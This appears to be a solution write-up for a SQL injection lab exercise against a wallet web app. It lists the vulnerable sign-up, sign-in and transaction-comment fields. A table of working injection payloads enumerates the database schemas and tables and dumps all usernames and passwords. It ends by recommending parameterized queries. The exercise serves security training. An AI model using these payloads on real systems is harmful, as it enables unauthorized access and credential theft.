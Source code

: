 # SQL Injection 

**Task 1:** Identify fields vulnerable to SQL injection.  
**Solution:**  
* Sign up page – Username, password, email fields.  
* Sign in page -  Username, password fields.
* Transactions page – Comments.

**Task 2:** DBMS (postgresql, oracle etc) used by the app.  
**Solution:**  Refer screen recording in README.  
 
**Task 3:** Schema used for the app.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

**Task 4:** Tables in the app.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

**Task 5:** Username and password of all users.  
**Solution:**  Refer screen recording in README. Refer the table below for the query string.  

| Task no. | Page name        | Field name           | Value                                                                                                                    |
|----------|------------------|----------------------|--------------------------------------------------------------------------------------------------------------------------|
| 3        | Sign up page     | username             | user0', (SELECT GROUP_CONCAT(distinct(table_schema), ' ') FROM INFORMATION_SCHEMA.tables), 'pass') --                    |
| 4        | Sign up page     | username             | user1', (select GROUP_CONCAT(table_name, ' ') from information_schema.tables where table_schema = 'wallet'), 'pass') --  |
| 5        | Transaction page | Transaction comments | test' \|\| (SELECT GROUP_CONCAT(username, ' : ' , password) FROM user)) --                                               |

**Recommendation to protect against this vulnerability** - Parameterized queries.



